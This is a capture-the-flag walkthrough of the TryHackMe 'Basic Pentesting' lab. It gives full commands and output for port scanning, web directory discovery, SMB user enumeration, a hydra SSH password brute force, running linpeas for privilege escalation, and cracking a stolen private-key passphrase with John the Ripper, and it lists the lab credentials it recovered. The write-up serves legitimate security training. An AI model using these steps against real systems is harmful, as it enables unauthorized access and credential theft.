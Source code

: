 # Basic Pentesting

## Task 1

1.  	Deploy the machine and connect to our network
```
export IP=10.10.3.156
```

2. Find the services exposed by the machine
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ nmap -sC -sV -Pn -n -oN nmap/initial.txt $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-14 20:51 MDT
Stats: 0:01:35 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 20:53 (0:00:35 remaining)
Stats: 0:02:50 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 20:55 (0:01:13 remaining)
Nmap scan report for 10.10.3.156
Host is up (0.14s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13?
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http-proxy
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

3.  What is the name of the hidden directory on the web server(enter name without /)?
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.3.156
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/14 20:54:39 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/development (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/05/14 20:55:49 Finished
```


4.  User brute-forcing to find the username & password
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ enum4linux -a $IP | tee enum4linux.log
```
This found some SMB shares that we could pursue:
```
========================================
|    Share Enumeration on 10.10.3.156    |
========================================

 Sharename       Type      Comment
 ---------       ----      -------
 Anonymous       Disk      
 IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
 ```
`enum4linux` also finds two users on the box, `kay` and `jan`:
```
======================================================================
|    Users on 10.10.3.156 via RID cycling (RIDS: 500-550,1000-1050)    |
======================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

5. What is the username?      
The username was found using `enum4linux` in combinatoin with reading the hints found under the `/development` directory on the web page. The usename is `jan`


6. What is the password?
We can brute force the password using `hydra`:
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-14 21:30:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.3.156:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[STATUS] 123.67 tries/min, 371 tries in 00:03h, 14344030 to do in 1933:10h, 16 active
[22][ssh] host: 10.10.3.156   login: jan   password: armando
```

7.  What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```


8.  Enumerate the machine to find any vectors for privilege escalation
We can now log in using the `jan:armando` credentials that we found. We can scp and run `linpeas` as follows:
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ scp linpeas.sh jan@$IP:/tmp
jan@10.10.3.156's password:
linpeas.sh                                                                                                                                                 100%  219KB 107.9KB/s   00:02    
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$
```
Once `linpeas` is on the box, mark as executable and run:
```
jan@basic2:~$ chmod +x /tmp/linpeas.sh
jan@basic2:~$ /tmp/linpeas.sh
```
Looking through the output that `linpeas` returns us, we see that we can access the private key file of the `kay` user.
```
[+] Looking for ssl/ssh files
/home/kay/.ssh/authorized_keys
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
Port 22
PermitRootLogin prohibit-password
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes
Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
 --> /etc/hosts.allow file found, read the rules:
```
Copying the key to our local machine and we find that the private key is password protected, so we can use JtR's `ssh2john` to get a hash from the private key:
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ /opt/JohnTheRipper/src/john kay_id_rsa --wordlist=/usr/share/wordlists/rockyou.txt
```
Now that we have a hash, we can load that hash into JtR like normal and get the password:
```
jeffrowell@kali:~/Documents/tryHackMe/basicPentesting$ sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_id_rsa)
```


9.  What is the name of the other user you found(all lower case)?
From the SMB share enumeration earlier:
```
kay
```

10.  If you have found another user, what can you do with this information?
Brute force the password.

11.  What is the final password you obtain?
After using JtR the password to the private key is:
```
beeswax
```
Using this password we can now ssh to the box as `kay` and in the home directory is our file containing the final password:
```
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$
```
